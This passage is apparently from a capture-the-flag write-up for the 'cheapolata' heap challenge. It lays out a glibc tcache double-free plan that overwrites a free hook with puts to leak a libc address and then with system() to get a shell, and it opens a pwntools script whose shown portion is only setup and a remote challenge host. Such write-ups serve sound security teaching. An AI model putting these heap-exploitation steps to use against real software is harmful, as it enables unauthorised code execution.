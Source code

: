 We're able to overwrite `old_free_hook` with `puts@plt`, this gives us an arbitrary read. However, once `old_free_hook` is replaced, we will no longer be able to free anymore.
Given the arbitrary read, we can hijack a fd pointer with any address and leak with `free()`, the fake chunk also needs to have a correct size to pass the size check (below 0x40). We can either leak the `GOT` of `free()` or `stderr` (the stderr of the binary) to get a libc address, we'll use `stderr` for this exploit.

##### The plan

Overwrite tcache entries 0x20, 0x30 and 0x40 with the address of `stderr` (I'm talking about the stderr of the binary), `old_free_hook` and `old_free_hook`, we'll see why later.

First malloc a 0x28 sized chunk (malloc will convert it to 0x30) to overwrite `old_free_hook` with `puts@plt` to get arbitrary read.
Then malloc a 1 sized chunk (converted to 0x20), it will overwrite the LSB of `stderr` but the leak will still be usable because the 24 bit lower bits are not affected by ASLR. Leak `stderr` with `free()` (replaced by `puts@plt`).

Finally, malloc a 0x38 sized chunk (converted to 0x40) to overwrite `old_free_hook` to `system()`, malloc a "/bin/sh\0" chunk and free it to get a shell!

**TLDR**
- double free to hijack `tcache_perthread_struct` and overwrite tcache entries 0x20, 0x30 and 0x40 with `&stderr`, `old_free_hook` and `old_free_hook`
- overwrite `old_free_hook` with puts and leak stderr
- overwrite `old_free_hook` with `system()` and get a shell.

Here's the script:
```py
from pwn import *
import pwn
import random as rnd
import struct as st
from time import sleep

context.arch = "amd64"
context.word_size = 64

file = "./cheapolata_patched"
args = []
io: process = None

speed = 0.1

def debug():
    gdb.attach(io, gdbscript=
    """
    define current
    x/10xg (void*)a-0x10
    end
    """)
    input("debug")

def launch_remote():
    global file, io
    io = remote(host="challenges.france-cybersecurity-challenge.fr", port=2106)

def launch_local():
    global file, io
    # io = remote(host="localhost", port=1234)
    io = process([file, *args])
    # debug()

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
```